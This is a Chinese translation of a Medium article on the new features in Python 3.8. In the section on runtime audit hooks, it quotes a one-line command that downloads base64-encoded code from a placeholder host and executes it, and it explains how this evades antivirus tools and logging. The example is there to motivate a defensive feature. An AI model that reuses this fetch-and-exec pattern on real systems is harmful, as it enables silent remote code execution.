

# Python3.8 有什么新功能，如何使用？

> 原文：<https://medium.datadriveninvestor.com/python3-8-whats-new-and-how-to-use-it-9f64ce96ff78?source=collection_archive---------3----------------------->



[https://i.imgur.com/Dm6ice0.png](https://i.imgur.com/Dm6ice0.png)

在本文中，我们将对 Python3.8 中的新特性做一个概述。

# 1)海象算子(赋值表达式)

我们知道你已经等了很久了。这可以追溯到几年前 python 有意禁止使用“=”作为表达式的时候。一些人喜欢它，因为它有助于避免混淆条件和“with”语句中的 *=* 和 *==* ，但其他人发现它不方便重复语句或将其赋给变量。让我们来看例子。

[](https://www.datadriveninvestor.com/2019/01/23/which-is-more-promising-data-science-or-software-engineering/) [## 数据科学和软件工程哪个更有前途？数据驱动的投资者

### 大约一个月前，当我坐在咖啡馆里为一个客户开发网站时，我发现了这个女人…

www.datadriveninvestor.com](https://www.datadriveninvestor.com/2019/01/23/which-is-more-promising-data-science-or-software-engineering/) 

正如 Guido 指出的，大多数程序员倾向于写:

```
group = re.match(data).group(1) if re.match(data) else None
```

代替

```
match = re.match(data)
group = match.group(1) if match else None
```

这使得程序变慢了。有些程序员不想选择第一个选项是很合理的，因为它会使代码变得混乱。

现在我们可以选择这样做

```
group = match.group(1) if (match := re.match(data)) else None
```

此外，在多种假设情况下，不事先计算所有内容也是非常有用的

```
match1 = pattern1.match(data)
match2 = pattern2.match(data)
if match1:
    result = match1.group(1)
elif match2:
    result = match2.group(2)
else:
    result = None
```

相反，我们可以写

```
if (match1 := pattern1.match(data)):
    result = match1.group(1)
elif (match2 := pattern2.match(data)):
    result = match2.group(2)
else:
    result = None
```

如果第一个 if 是正确的，那么就不会计算第二个 if 的最优值。

总的来说，我对这个 pep (pep-572)感到高兴，因为它给出了不存在的可能性，但也为此使用了另一个符号，所以很难与 *==* 混淆

但是，它可能会产生最初无效的代码

```
y0 = (y1 := f(x))
```

# 2)仅位置参数

```
def f(a, b, /, c, d, *, e, f):
    print(a, b, c, d, e, f)
```

在 */* 之前的任何内容都只是位置性的
， *** 之后的任何内容都只是关键字

```
f(10, 20, 30, d=40, e=50, f=60)     - valid
f(10, b=20, c=30, d=40, e=50, f=60) - b cannot be a keyword argument
f(10, 20, 30, 40, 50, f=60)         - e must be a keyword argument
```

这个特性的应用可以用一句话来解释。

图书馆会更容易改变他们的签名。让我们看看例子。

```
def add_to_queue(item: QueueItem):
```

现在作者应该保持这个签名，不可能再更改参数的名称，因为这将是一个易破的更改。想象一下，现在您不仅想要一个项目，而且想要其中的一个或一个列表

```
def add_to_queue(items: Union[QueueItem, List[QueueItem]]):
```

或者像这样

```
def add_to_queue(*items: QueueItem):
```

这是你以前不能做的事情，因为要兼容以前的版本。现在你可以了。除此之外，它与已经使用这种方法的内置程序更加一致。例如，您不能将 kwargs 传递给 pow 函数。

```
>>> help(pow)
...
pow(x, y, z=None, /)
...
>>> pow(x=5, y=3)Traceback (most recent call last):
File "<stdin>", line 1, in <module>
TypeError: pow() takes no keyword arguments
```

# 3) f 字符串调试支持

一个小的附加功能它帮助我们用简洁的格式来写" name_of_variable= "，变量。

```
f"{chr(65) = }" => "chr(65) = 'A'"
```

有没有注意到 *chr(65)* 后面的 *=* ？这很管用。它提供了一种使用 f 字符串打印变量的简单方法

# 4)天然 asyncio 壳

现在，如果我们运行类似 python shell 的“python -m asyncio”，我们就不再需要 asyncio.run()来运行异步函数。await 可以直接在 shell 中使用。

```
>python -m asyncio
asyncio REPL 3.8.0b4
Use “await” directly instead of “asyncio.run()”.
Type “help”, “copyright”, “credits” or “license” for more information.>>> import asyncio
>>> async def test():
… await asyncio.sleep(1)
… return ‘hello’
…
>>> await test()
‘hello’
```

# 5) Python 运行时审计挂钩

Python 运行时严重依赖于 c。然而，在那里执行的代码不会以任何其他方式被记录或跟踪。它阻碍了不同的测试框架、日志记录框架和安全工具来监控并有选择地限制运行时采取的操作。

现在，运行时执行产生的事件可以被观察到，包括模块导入系统和任何自定义钩子。

新的 API 将如下所示

```
# Add an auditing hook
sys.addaudithook(hook: Callable[[str, tuple]])
# Raise an event with all auditing hooks
sys.audit(str, *args)
```

挂钩不能拆除或更换。对于 CPython，从 C 添加的钩子是全局的，而从 Python 添加的钩子只针对当前的解释器。全局钩子在解释器钩子之前执行。

一个特别有趣且最难以追踪的漏洞是这样写的:

```
python -c “import urllib.request, base64;
    exec(base64.b64decode(
        urllib.request.urlopen(‘http://my-exploit/py.b64')
    ).decode())”
```

这种代码不会被大多数反恶意软件程序扫描，因为它们依赖于通过下载或写入磁盘来读取可识别的代码，base64 足以绕过这一点。它还会经过保护，例如文件访问控制列表或权限(不发生文件访问)、批准的应用程序列表(假设 Python 已被批准用于其他用途)，以及自动审计或日志记录(假设 Python 被允许访问互联网或访问本地网络上的另一台机器以获取其有效负载)。

使用运行时事件挂钩，我们能够决定如何对任何特定事件做出反应。我们可以记录事件，也可以完全中止操作。

# **6)多重处理.共享内存**

有助于使用来自不同进程/解释程序的相同内存区域。基本上，它可以帮助我们减少序列化对象以在进程间传输它们所花费的时间。我们可以从不同的进程中使用共享内存，而不是将其序列化、发送到队列并反序列化。

# **7) Pickle 协议 5 带外数据缓冲**

pickle 协议 5 引入了对带外缓冲区的支持，其中数据可以根据通信层的判断与主 pickle 流分开传输。

前两个修正案对下一个修正案非常重要。不幸的是，Python3.8 中还没有包含它，因为一些合并旧代码的工作仍有待完成，但它可以改变我们在 Python 中处理并行代码的方法。

# **8)副口译员**

由于 GIL，Python 线程不是并行运行的，而进程是消耗资源的。启动一个进程需要 100-200 毫秒，而且它们使用大量 RAM。可以利用它的一个工具是副口译员。GIL 是每个解释器的，所以它不会影响其他解释器，启动它比启动一个进程要轻(虽然，还是比启动一个线程慢)。

出现的主要问题是在解释器之间传输数据，因为它们不会像线程那样共享它们的状态。所以我们需要在它们之间进行某种交流。Pickle、marshal 或 json 可用于序列化和反序列化对象，但它可能非常慢。解决方案之一是使用进程模块中的共享内存。

子进程似乎是长期存在的 GIL 问题的解决办法，但是，仍有一些工作要做。Python 在某些情况下仍然使用“运行时状态”而不是“解释器状态”。例如，垃圾收集器就是这样工作的。所以我们需要改变和许多其他内部模块一样，开始使用子解释器。

我希望该特性能在 Python3.9 中发布

总之，这个版本增加了一些很好的语法，同时对核心库和运行时过程进行了更认真的修改。还有很多很酷的特性没有进入发行版，所以我们将在 Python3.9 中等待它们。敬请期待。

## 资源:

*   Python 中的新特性[https://docs.python.org/3.8/whatsnew/3.8.html](https://docs.python.org/3.8/whatsnew/3.8.html)
*   https://www.python.org/dev/peps/pep-0572/的海象操作员
*   仅立场论点【https://www.python.org/dev/peps/pep-0570/ 
*   审计挂钩[https://www.python.org/dev/peps/pep-0578/](https://www.python.org/dev/peps/pep-0578/)
*   没有审计挂钩的安全问题[https://www.python.org/dev/peps/pep-0551/](https://www.python.org/dev/peps/pep-0551/)
*   子解释器[https://hacker noon . com/has-the-python-Gil-been-9440d 28 fa 93d](https://hackernoon.com/has-the-python-gil-been-slain-9440d28fa93d)

*撰稿* [*契尔年科*](https://www.linkedin.com/in/%D0%BD%D0%B8%D0%BA%D0%B8%D1%82%D0%B0-%D1%87%D0%B5%D1%80%D0%BD%D0%B5%D0%BD%D0%BA%D0%BE-5b8ab714b) *校对* [*科罗塔奇*](https://www.linkedin.com/in/igor-korotach-806435154)